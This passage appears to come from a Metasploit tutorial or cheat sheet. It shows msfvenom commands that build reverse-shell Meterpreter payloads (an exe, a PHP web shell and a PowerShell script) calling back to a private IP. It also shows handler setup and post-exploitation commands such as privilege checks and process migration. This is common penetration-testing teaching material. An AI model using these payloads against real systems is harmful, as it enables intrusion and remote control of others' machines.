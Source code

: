 ```bash

# Kill a session
sessions -k 1
```

### Generating Standalone Payloads

```bash
# Create an executable payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe

# Create a web payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php

# Create shellcode for scripting languages
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f ps1 -o payload.ps1
```

### Setting Up Handlers

```bash
# In msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
run
# Or for background execution
exploit -j
```

## Meterpreter Basics

### Basic Navigation and System Commands

```bash
# Get system information
sysinfo

# Show current user and privileges
getuid
getprivs

# Navigate the file system
pwd
cd c:\\Users\\Administrator
ls

# Process commands
ps
migrate 1234  # Migrate to process with PID 1234
```
